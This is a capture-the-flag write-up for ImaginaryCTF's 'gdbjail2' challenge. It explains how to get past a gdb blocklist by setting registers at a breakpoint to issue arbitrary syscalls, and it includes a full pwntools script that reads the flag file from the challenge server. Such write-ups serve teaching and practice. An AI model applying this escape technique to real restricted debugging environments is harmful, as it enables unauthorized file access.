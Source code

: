 https://ctftime.org/event/2396

# gdbjail2 (misc)

this time with a blocklist

## Solution

The main difference in this one is the blacklist:
```python
blacklist = ["p", "-", "&", "(", ")", "[", "]", "{", "}", "0x"]
```
So we can't just set $rip.

We are debugging cat without any arguments, so it just hangs there forever waiting for input.
It takes input using the read syscall.
We can just add a breakpoint before read, change the registers and continue.
Allowing us to call any syscall that we want.

The way to find where the syscall is might be a little bit harder, I just
installed pwndbg on the Docker image, and used `stepuntilasm syscall`.
But you can also step to it or use a custom gdb script.

You can probably just call execve and be done with it.
I unfortunately chose a harder path.

1. open flag dir
2. call opendents
3. read flag filename
4. open flag
5. read flag
6. print flag from mem

Its pretty straight forward, there are two problems though.

First, The flag filename has the letter 'p' in it which is on the blacklist.
We can bypass that by using integers instead of chars, see the `alloc_str` function.

And second, finding writeable memory
We can just do `set $rax = "AAAA"`.
This gives us a heap string of any size we want.

```python
#!/usr/bin/env python3

from pwn import *

def sendfile(fd1, fd2, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 40")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd1}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = {fd2}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = 0".encode())
    p.sendlineafter(b"(gdb) ", f"set $r10 = 64".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def dump(offset):
    p.sendlineafter(b"(gdb) ", b"set $rax = 1")
    p.sendlineafter(b"(gdb) ", b"set $rdi = 1")
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'B'}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $r14 = 65535 * {offset}".encode())
    p.sendlineafter(b"(gdb) ", b"set $si = $si + $r14")
    p.sendlineafter(b"(gdb) ", f"set $rdx = 256".encode())
    p.sendlineafter(b"(gdb) ", b"continue")
    data = p.recv()
    print(f"DEBUGPRINT[3]: clean.py:16: p.recv()={data}")
    return data 

def write(fd, data, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 1")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{data}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def _open(filename, mode):
    p.sendlineafter(b"(gdb) ", b"set $rax = 2")
    alloc_str(filename, "$rdi")
    # p.sendlineafter(b"(gdb) ", f"set $rdi = \"{filename}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = {mode}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = 0".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def getdents(fd, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 78")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'A' * 256}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def read(fd, n):
    p.sendlineafter(b"(gdb) ", b"set $rax = 0")
    p.sendlineafter(b"(gdb) ", f"set $rdi = {fd}".encode())
    p.sendlineafter(b"(gdb) ", f"set $rsi = \"{'A'*n}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $rdx = {n}".encode())
    p.sendlineafter(b"(gdb) ", b"continue")

def alloc_str(string, reg):
    p.sendlineafter(b"(gdb) ", f"set {reg} = \"{'A'*len(string)}\"".encode())
    p.sendlineafter(b"(gdb) ", f"set $start = {reg}".encode())

    for chunk in string:
        chunk = ord(chunk)
        p.sendlineafter(b"(gdb) ", f"set *{reg} = {chunk}".encode())
        p.sendlineafter(b"(gdb) ", f"set {reg} = {reg} + 1".encode())

    p.sendlineafter(b"(gdb) ", f"set *{reg} = 0".encode())
    p.sendlineafter(b"(gdb) ", f"set {reg} = $start".encode())

with remote("gdbjail2.chal.imaginaryctf.org", 1337) as p:
    p.recvuntil(b":25\n")

    p.sendlineafter(b"(gdb) ", b"break *write+21")
    p.sendlineafter(b"(gdb) ", b"break *write+23")
    p.sendlineafter(b"(gdb) ", b"continue")
    p.sendline(b"")

    _open(".", 0)
    p.sendlineafter(b"(gdb) ", b"continue")

    getdents(3, 256)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    data = dump(300)
    idx = data.find(b'.txt')
    flag = data[idx-20:idx+4]
    p.sendlineafter(b"(gdb) ", b"continue")

    _open(flag.decode(), 0)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    read(4, 64)
    p.sendlineafter(b"(gdb) ", b"continue")
    
    dump(200)
    p.sendlineafter(b"(gdb) ", b"continue")
```

## Flag
`ictf{i_l0ve_syscalls_eebc5336}`

shafouz 2024/07/21
